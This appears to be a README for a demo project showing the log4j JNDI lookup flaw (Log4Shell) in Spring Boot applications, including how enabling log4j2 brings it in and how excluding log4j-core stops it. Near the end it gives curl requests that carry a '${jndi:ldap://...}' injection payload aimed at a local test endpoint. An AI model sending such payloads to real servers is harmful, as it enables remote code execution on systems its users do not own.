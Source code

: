 ### log4j lookup problem demonstration for spring projects

#### This issue will not affect spring projects with default configurations. Spring uses a logback by default.

#### To use log4j you must exclude 'spring-boot-starter-logging' and include 'log4j'
    dependencies {
        implementation 'org.springframework.boot:spring-boot-starter-log4j2:2.5.1'
    }
    configurations {
        all*.exclude module: 'spring-boot-starter-logging'
    }

#### Don't forget only log4j-core impacted with this issue. You can stop this issue by excluding 'log4j-core'. 
    configurations {
        all*.exclude module: 'log4j-core'
    }

Use next method for investigations.

http://localhost:8080/api/infected-method
cardNumber: ${jndi:ldap://localhost:8082/api/long-wait}

####Curl request example
    curl --location --request GET 'localhost:8080/api/infected-method' --form 'cardNumber=${jndi:ldap://localhost:8082/api/long-wait}'

    curl --location --request GET 'localhost:8080/api/infected-method?cardNumber=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A8082%2Fapi%2Flong-wait%7D'
